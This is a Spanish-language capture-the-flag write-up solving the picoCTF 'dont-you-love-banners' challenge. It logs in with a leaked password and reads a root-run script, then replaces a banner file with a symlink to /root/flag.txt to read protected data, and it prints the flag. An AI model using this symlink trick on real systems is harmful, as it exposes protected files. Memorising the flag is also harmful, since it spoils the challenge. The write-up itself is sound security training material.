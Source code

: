 ## Reto: dont-you-love-banners
### Descripción
¿Puedes abusar de la pancarta?El servidor ha estado filtrando información crucial sobre `tethys.picoctf.net 50881`. Utilice la información filtrada para llegar al servidor.Para conectarse al uso de la aplicación en ejecución `nc tethys.picoctf.net 62823`. De la información anterior, abuse de la máquina y encuentre la bandera en el directorio /root.
### Solución
Iniciamos con la conexión al servidor proporcionado después de tener iniciada la instancia del reto:
```shell
nc tethys.picoctf.net 62823
```
Como podemos ver, este servidor nos mostró la contraseña que vamos a usar para podernos conectar, por lo que ahora probamos con el otro servidor:
```r
*************************************
**************WELCOME****************
*************************************

what is the password?
```

En este caso el servidor nos condujo a la aplicación como tal, donde se nos pide la contraseña (la cual habíamos obtenido anteriormente), donde una vez ingresada debemos responder una serie de preguntas para acceder a la consola que nos permita manipular los directorios:
```
what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Sí hemos respondido correctamente a la preguntas anteriores se nos desplegará ahora el prompt indicando que ya podremos ejecutar comandos, siendo el primero **ls -al**, para poder ver los archivos y permisos que hay en el directorio actual.

```shell
ls -al
```

Se hacen pruebas para determinar el contenido de dos archivos, siendo estos "banner" y "text", lo anterior con el comando **cat**:
```shell
cat banner
```

Ahora procedemos a revisar el contenido en el directorio raíz, donde podemos ver dos archivos que podemos consultar: "flag.txt" y "script.py":
```shell
ls -al /root
```

Dado que por los permisos que contiene **flag.txt**, no nos es posible revisarlo, procedemos a hacer un cat al script de python:
```python
cat /root/script.py
```

Obteniendo el siguiente código:
```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```


Como en el código nos dice algo de reemplazar el banner en cierto directorio, procedemos a aplicar un comando **rm** en dicho directorio, seguido de la creación de un enlace simbólico, puesto que cuando el usuario deseé acceder al banner, en realidad lo estará haciendo a **flag.txt**:
```shell
rm /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Por lo que terminamos la conexión con el servidor para iniciar otra y ver si nuestro cambio surtió efecto:
```q
┌──(hackerjos㉿Joshue)-[~]
└─$ nc tethys.picoctf.net 62823
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password?
```

Como podemos ver, resultó favorable, puesto que nos arrojó la bandera que da solución al reto:
```flag
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```



### Notas adicionales
### Referencias


 

